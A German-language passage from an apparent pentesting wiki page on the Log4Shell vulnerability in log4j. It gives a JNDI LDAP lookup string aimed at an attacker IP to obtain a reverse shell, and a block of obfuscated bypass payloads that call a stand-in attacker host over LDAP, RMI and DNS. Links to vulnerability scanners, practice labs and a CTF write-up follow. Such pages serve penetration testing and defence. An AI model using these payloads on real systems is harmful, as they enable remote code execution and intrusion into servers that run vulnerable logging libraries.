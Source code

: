 Jetzt können Sie einen generierten JNDI-Link einfach verwenden, um die Schwachstelle auszunutzen und eine **Reverse-Shell** zu erhalten, indem Sie ihn an eine verwundbare Version von log4j senden: **`${ldap://10.10.14.10:1389/generated}`**

### Bypasses
```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/} //Notice the use of rmi
${${::-j}ndi:dns://attackerendpoint.com/} //Notice the use of dns
${${lower:jnd}${lower:${upper:ı}}:ldap://...} //Notice the unicode "i"
```
### Automatische Scanner

* [https://github.com/fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)
* [https://github.com/adilsoybali/Log4j-RCE-Scanner](https://github.com/adilsoybali/Log4j-RCE-Scanner)
* [https://github.com/silentsignal/burp-log4shell](https://github.com/silentsignal/burp-log4shell)
* [https://github.com/cisagov/log4j-scanner](https://github.com/cisagov/log4j-scanner)
* [https://github.com/Qualys/log4jscanwin](https://github.com/Qualys/log4jscanwin)
* [https://github.com/hillu/local-log4j-vuln-scanner](https://github.com/hillu/local-log4j-vuln-scanner)
* [https://github.com/logpresso/CVE-2021-44228-Scanner](https://github.com/logpresso/CVE-2021-44228-Scanner)
* [https://github.com/palantir/log4j-sniffer](https://github.com/palantir/log4j-sniffer) - Finde lokale verwundbare Bibliotheken

### Labs zum Testen

* [**LogForge HTB-Maschine**](https://app.hackthebox.com/tracks/UHC-track)
* [**Try Hack Me Solar-Raum**](https://tryhackme.com/room/solar)
* [**https://github.com/leonjza/log4jpwn**](https://github.com/leonjza/log4jpwn)
* [**https://github.com/christophetd/log4shell-vulnerable-app**](https://github.com/christophetd/log4shell-vulnerable-app)

## Post-Log4Shell Ausnutzung

In diesem [**CTF-Bericht**](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/) wird gut erklärt, wie es potenziell **möglich** ist, einige Funktionen von **Log4J** zu **missbrauchen**.

Die [**Sicherheitsseite**](https://logging.apache.org/log4j/2.x/security.html) von Log4j enthält einige interessante Sätze:

> Ab Version 2.16.0 (für Java 8) wurde die **Nachrichtensuche-Funktion vollständig entfernt**. **Suchen in der Konfiguration funktionieren weiterhin**. Darüber hinaus deaktiviert Log4j jetzt standardmäßig den Zugriff auf JNDI. JNDI-Suchen in der Konfiguration müssen jetzt explizit aktiviert werden.
